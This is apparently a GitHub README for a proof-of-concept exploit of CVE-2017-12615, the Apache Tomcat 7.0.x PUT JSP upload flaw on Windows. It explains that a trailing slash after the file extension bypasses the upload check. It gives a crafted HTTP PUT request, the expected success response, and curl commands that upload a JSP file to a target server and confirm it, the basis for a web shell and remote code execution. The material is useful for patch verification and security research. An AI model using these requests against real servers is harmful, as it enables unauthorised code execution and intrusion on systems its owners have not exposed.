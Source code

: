 ### _In memory of Chia Junyuan (https://packetstormsecurity.com/files/author/11924/)_

# POC CVE-2017-12615
POC Exploit for Apache Tomcat 7.0.0 to 7.0.79 running on Windows; CVE-2017-12615 PUT JSP vulnerability.

## Description:
By design, you are not allowed to upload JSP files via the PUT method on the Apache Tomcat servers.
This is likely a security measure to prevent an attacker from uploading a JSP shell and gaining remote code execution on the server.
However, due to the insufficient checks, an attacker could gain remote code execution on 7.0.{0 to 79} Tomcat servers that has enabled PUT by requesting PUT method on the Tomcat server using a specially crafted HTTP request. But seriously, special? Please.

## Exploit method:
By appending a '/' character behind the filename's extension, one can bypass the file extension check. That's it. So, not that special actually.

### Exploit in a Request Method:
#### Request
```http
PUT /myfile.jsp/
Host: domain-name:port
Connection: close
Content-Length: 85

<% out.write("<html><body><h3>[+] JSP upload successfully.</h3></body></html>"); %>
```
#### Expected response if successful
```http
HTTP/1.1 201 Created
Server: Apache-Coyote/1.1
Content-Length: 0
Date: Sat, 23 Sep 2017 06:36:36 GMT
Connection: close
```

### Exploit using 'curl':
1. Create a .jsp file (e.g. test.jsp):
```jsp
<% out.write("<html><body><h3>[+] JSP file successfully uploaded via curl and JSP out.write  executed.</h3></body></html>"); %>
```
2. Perform the curl command on target server:
```sh
curl -X PUT http://target-host-or-ip-address:port/test.jsp/ -d @- < test.jsp
```
3. Check if your file is uploaded by browsing to the target address or:
```sh
curl http://target-host-or-ip-address:port/test.jsp
```
